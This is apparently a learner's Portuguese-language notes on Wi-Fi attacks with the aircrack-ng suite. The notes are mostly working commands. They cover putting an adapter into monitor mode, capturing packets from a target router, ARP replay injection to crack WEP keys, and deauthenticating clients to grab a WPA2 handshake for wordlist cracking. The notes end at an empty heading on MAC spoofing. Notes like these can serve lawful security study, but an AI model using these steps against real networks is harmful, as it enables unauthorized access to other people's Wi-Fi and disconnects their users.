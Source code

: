 - adaptador wireless ou placa de rede que vem no notebook para testes
- iwconfig

### processo para habilitar modo monitor de seu adaptador wireless
- airmon-ng check
- airmon-ng check kill
- airmon-ng start wlan0

obs: modo monitor é necessario para listar todas as redes wifi próximas

### listar redes wifi disponiveis perto

- airodump-ng wlan [nome de sua interface wireless]
- ---
- BSSID é o endereço MAC dos roteadores
- PWR é o nivel de intensidade das redes listadas
- Beacons são os chamados envios do roteador
- Data são os dados que se da pra interceptar
- MB conectividade
- ENC tipo de criptografia (obs: visto em algumas aulas que a criptografia WEP que é bem antiga e legada)
- ESSID nome da rede
- ---

### começando a dar uma brincada
- airodump-ng -c [canal, por exemplo "1"] [nome de sua interface wireless]  (travar conectividade em um determinado tipo de canal wireless, util pra quando se quer fazer algo nela sem que haja oscilação)
- airodump-ng -c [canal, por exemplo "1"] --bssid [endereço MAC roteador alvo] -w [nome do arquivo que vc quer que salve tudo o que for capturado] [nome da sua interface wireless]  (captura alguns pacotes de autenticação ou outras informações uteis, lembrando que esse comando é mais focado para ENC WEP)

### arp injection via ENC WEP (o mais simples) para gerar dados a rede alvo

esse comando foca em enviar dados adcionais a outros roteadores fazendo se passarem por eles mesmos usando o station deles, isso é útil para gerar pacotes adcionais de dados para usarmos o aircrack e assim possivelmente conseguir quebrar a senha wifi do alvo)

- aireplay-ng -3 -b [bssid] -h [station de um dos bssid encontrados no comando acima] [nome da sua interface wireless]

### air crack para quebra de senhas wifi (ENC WEP o mais simples, legado)

- aircrack-ng -a [canal, por exemplo "1"] [nome-do-arquivo-que-vc-salvou-no-airodump-.cap]

---
### Atacando rede WPA2

- airodump-ng [sua interface]
- airodump-ng -c 1 --bssid [bssid do alvo] -w redeWPA  [sua interface wireless] -> salvando esse pacote wpa2 do alvo em um arquivo redeWPA
- Precisa agora que haja uma nova conexão com a rede alvo para que possamos capturar o handshake (podemos utilizar o comando abaixo para remover a autenticação de dispositivos atuais na rede)
- aireplay-ng -0 3 -e [nome da rede alvo] [sua interface wireless]
- Agora deve ter aparecido um handshake naquele nosso comando de redeWPA e pode parar a captura agora.
- ls -l redeWPA-01* 
- aircrack-ng -w [wordlist] [caminho-do-arquivo-dos-pacotes-]
- key found! [senha encontrada]

---

### Manipulando MacAddress para se conectar a uma rede wireless

